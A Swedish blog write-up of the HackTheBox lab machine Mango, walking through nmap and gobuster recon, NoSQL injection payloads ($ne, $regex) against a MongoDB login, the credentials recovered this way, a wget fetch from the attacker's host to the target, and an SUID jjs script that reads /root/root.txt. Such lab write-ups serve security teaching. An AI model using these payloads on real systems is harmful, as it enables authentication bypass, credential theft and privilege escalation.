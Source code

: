 ```yaml
---
title: "HackThebox: Mango Writeup"
date: 2020-06-4 23:07:44 +0000
categories:
  - blog
tags:
  - CTF
  - HTB
  - Swedish
---
```


Jag ligger ett par veckor efter i planeringen, och skulle egentligen publicerat den här wirteupen för länge sedan, men det går inte alltid som man vill! Jag hoppas kunna fylla på här med mer innehåll snarast möjligt. 

Det här inlägget är en writeup på HTB-maskinen Mango, utöver vanlig recon-aktivitet så innefattar den NoSQL-injektioner i MongoDB, lite lösenordsknäckning via Python & SUID-exploatering för privilege escalation, happy reading! 

# Recon
**nmap -sC -sV -oA nmap/initial 10.10.10.162**

~~~
Nmap scan report for 10.10.10.162
Host is up (0.081s latency).
Not shown: 940 closed ports, 57 filtered ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Issuer: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-09-27T14:21:19
| Not valid after:  2020-09-26T14:21:19
| MD5:   b797 d14d 485f eac3 5cc6 2fed bb7a 2ce6
|_SHA-1: b329 9eca 2892 af1b 5895 053b f30e 861f 1c03 db95
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

Inte så mycket som sticker ut efter att ha kört nmap, däremot uppmärksammade jag ett SSL-cerifikat som exponerade någon form av staging-domän och bestämde mig för att titta på den. 

**SSL-Certifikatet**

ssl-cert: Subject:
commonName=**staging-order.mango.htb**organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
....

Så jag drar igång gobuster mot staging domänen för att se om där finns något spännande, jag letar efter php-filer med växeln -x eftersom index-filen är av typen php.

**gobuster dir -u https://staging-order.mango.htb -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 10 -x php**
~~~


===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://staging-order.mango.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/02/18 17:21:45 Starting gobuster
===============================================================
/index.php (Status: 200)
/analytics.php (Status: 200)
Progress: 17365 / 220561 (7.87%)
~~~

Detta visar att det finns en analytics-applikation jag kan komma åt, det här visade sig vara ett s.k. "Rabbit hole" och ledde ingenstans, därför kommer jag inte skriva mer om det.

På staging-domänen finns annars bara en inloggningssida, och som vanligt när det gäller HTB-maskiner brukar namnet i sig vara en ledtråd & så även denna gång mango = mongoDB? 

![Staging-domän](https://jackhack.se/assets/images/staging.png)

Eftersom MongoDB är en NoSQL-databas bestämde jag mig för att testa NoSQL-injektioner, efter att ha kollat upp NoSQL-injektioner hos [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection) startade jag upp Burp suite..

# NoSQL Injection (MongoDB)
Några variabler att hålla koll på vid testning: 

* \$eq     "equal to"
* \$gt     "greater than"
* \$gte    "greater than or equal to"
* \$ne     "not equal to"

Väl i Burp interceptade jag inloggnings-requesten & kollade vilken respons jag fick när jag testade logga in med användarnamnet *admin* & lösenordet *test*, responskoden var 200 OK

![Burp](https://jackhack.se/assets/images/burp_1.png)

Samma request med användarnamnet admin & lösenordet *\[$ne]test* (alltså **INTE** *test*) fick jag istället responskoden 302 Found


![Burp 302](https://jackhack.se/assets/images/burp_2.png)

Testet indikerar på att det finns en användare vid namn admin, som inte har lösenordet *test* och kan logga in på sidan. 

Nu skulle det vara möjligt att tecken för tecken lista ut användarnamn & lösenord genom att använda sig av reguljära uttryck, t.ex.:

**Först ta reda på längden på lösenordet**
* username=admin&password[$regex]=^.{1}&login=login
Responskod 200 (lösenordet är alltså INTE ett tecken)
* username=admin&password[$regex]=^.{2}&login=login
Responskod 200, lösenordet är alltså INTE två tecken
* ...
* username=admin&password[$regex]=^.{12}&login=login
Responskod 302 Found, lösenordet är alltså 12 tecken!

Sedan kan samma regexp-metod användas för att testa alla bokstäver,siffror och specialtecken för att tecken för tecken lista ut lösenordet.

Detta är såklart ingenting man vill göra för hand, tur att det finns script för detta, jag använde följande script från [GitHub](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/blob/master/nosqli-user-pass-enum.py)

Efter att ha kört scriptet mot staging-sidan fick jag fram följande inloggningsuppgifter:

* mango:h3mXK8RhU~f{]f5H
* admin:t9KcS3>!0B#2

# User
Eftersom jag kunde se att port 22 var öppen vid Nmap-scanningen testade jag att logga in via SSH, användaren admin fungerade inte men mango-kontot gav access.

Väl inne i maskinen fanns där ingen user-flagga i mango's hemkatalog, så jag bytte till admin-kontot.


~~~
ssh mango@mango.htb

su admin
cd
cat user.txt
~~~
{: .language-bash}
# Root

När jag har fått en limiterad shell brukar jag köra något av privilege escalation scripten LinEnum eller linuxprivchecker, jag förde över linuxprivchecker genom att sätta upp en python-webserver snabbt.

~~~
--- I Kali ---
cd /opt/scripts/
python -m SimpleHTTPServer 80
--- På remote-maskin ---
wget http://10.10.15.23/linuxprivchecker.py
python linuxprivchecker.py
~~~
{: .language-bash}
Scriptet visade en binärfil vid namn "jjs" som har "SUID"-flagga satt och därför kan köras med administratörsrättigheter, jag kollade upp binären i repot [gtfobins](https://gtfobins.github.io/gtfobins/jjs/) för att se vad jag kunde åstadkomma med den. 

Jag fick inte till det med mina försök att använda jjs för att upprätta en reverse-shell mellan min kali-host och maskinen. Däremot kunde jag köra följande kod för att läsa root-flaggan.

~~~
echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }' | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

root.txt:8a8ef79a7a2fbb01ea81688424e9ab15
~~~
{: .language-bash}

